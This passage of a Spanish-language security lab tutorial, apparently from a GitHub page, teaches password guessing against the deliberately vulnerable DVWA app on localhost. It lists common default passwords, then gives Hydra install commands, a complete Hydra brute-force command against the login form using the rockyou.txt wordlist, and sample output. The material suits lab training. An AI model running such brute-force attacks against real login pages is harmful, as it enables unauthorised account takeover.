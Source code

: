    - `admin`
   - `123456`
   - `password`
   - `letmein`

4. Si alguna funciona, has realizado **Password Guessing manual exitosamente**.

---

### 🤖 ¿Y si quiero hacerlo automáticamente?

Usa **Hydra**, una herramienta que automatiza el intento de contraseñas en muchos servicios (HTTP, SSH, FTP, etc.).

---

#### 🛠️ Instalación de Hydra (Kali Linux o Ubuntu)

```bash
sudo apt update
sudo apt install hydra -y
```

---

#### ✅ Ejemplo automático: Login en DVWA con Hydra (HTTP POST)

Supón que DVWA está en:

```
http://localhost/DVWA/login.php
```

Y tienes un diccionario de contraseñas como `rockyou.txt` (viene en Kali):

```bash
gunzip /usr/share/wordlists/rockyou.txt.gz
```

#### Comando Hydra:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost http-post-form "/DVWA/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
```

> 🔍 Este comando le dice a Hydra que intente loguearse como `admin`, probando todas las contraseñas del diccionario, y detecte si falla por el mensaje `"Login failed"`.

---

#### ✅ Resultado esperado:

Si alguna contraseña coincide (por ejemplo `password`), Hydra lo mostrará así:

```
[80][http-post-form] host: localhost   login: admin   password: password
```
